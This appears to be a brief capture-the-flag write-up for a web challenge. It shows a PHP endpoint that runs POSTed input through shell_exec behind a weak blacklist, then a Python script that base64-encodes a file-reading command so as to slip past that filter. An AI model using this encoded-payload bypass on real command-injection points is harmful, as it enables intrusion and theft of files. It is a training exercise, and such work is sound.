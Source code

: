 ### Revo Web App

Performing a directory scan reveals that there is a `/cmd.php` endpoint.

This seems to allow us to perform command injection, but there appears to be a blacklist filter. Fortunately, the `cat cmd.php` command works, allowing us to view the blacklist.

```php
<?php
  function test_input($data) {
    $str1 = "%44";
    $data2 = append_string ($str1, $data);
    return $data2;
  }
  
  function display()
  {
    $bl = array("/",";","@","\","\/\/");
    $input = $_POST["cmd"];
    $input = str_replace($bl, "", $input);
    $bl2 = array("curl","shutdown","init","systemctl","ps","ls","etc");
    $input = str_replace($bl2, "", $input);
    $output = shell_exec($input);
    echo $output;
  }
  if(isset($_POST['submit']))
  {
    display();
  } 
 ?>
```

To overcome the blacklist, we used a base64-encoded payload, which is then decoded by Python on the server.

```python
import base64

PAYLOAD = b"cat /home/bobby/flag.txt"

encoded = base64.b64encode(PAYLOAD)
print(encoded)

command = "python3 -c '__import__(\"os\").system((__import__(\"base64\").b64decode(\"" + encoded.decode() + "\")))'"
print(command)
```

